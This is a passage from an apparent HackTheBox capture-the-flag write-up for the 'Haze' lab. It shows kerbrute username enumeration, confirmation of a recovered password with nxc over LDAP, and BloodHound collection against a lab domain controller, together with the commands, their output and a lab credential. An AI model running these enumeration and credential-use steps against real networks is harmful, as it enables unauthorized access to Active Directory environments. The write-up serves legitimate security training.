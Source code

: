 ## Domain Foothold

### Username Enumeration

We know the password belongs to a user named **Paul Taylor** from the distinguished name in `authentication.conf`; we just need to determine the corresponding `sAMAccountName`.

We use the `username-anarchy` tool to compile a list of possible usernames for **Paul Taylor** and enumerate through them using `kerbrute`:

```bash
username-anarchy Paul Taylor > paul_usernames.txt
kerbrute userenum -d HAZE.HTB --dc 10.10.11.61 paul_usernames.txt
```

```
    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 06/26/25 - Ronnie Flathers @ropnop

2025/06/26 09:57:35 >  Using KDC(s):
2025/06/26 09:57:35 >   10.10.11.61:88

2025/06/26 09:57:35 >  [+] VALID USERNAME:       paul.taylor@HAZE.HTB
2025/06/26 09:57:35 >  Done! Tested 14 usernames (1 valid) in 0.177 seconds
```

### Confirming Credentials

We use `nxc` to confirm the password for the `paul.taylor` user:

```bash
nxc ldap 10.10.11.61 -u paul.taylor -p 'Ld@p_Auth_Sp1unk@2k24'
```

```bash
LDAP        10.10.11.61     389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb)
LDAP        10.10.11.61     389    DC01             [+] haze.htb\paul.taylor:Ld@p_Auth_Sp1unk@2k24
```

## Domain Enumeration

### BloodHound Ingestion

We use `bloodhound-ce-python` to ingest BloodHound and collect domain information:

```bash
bloodhound-ce-python -u 'paul.taylor' -p 'Ld@p_Auth_Sp1unk@2k24' \
-d haze.htb -dc-ip 10.10.11.61 -ns 10.10.11.61 -c All --zip
```
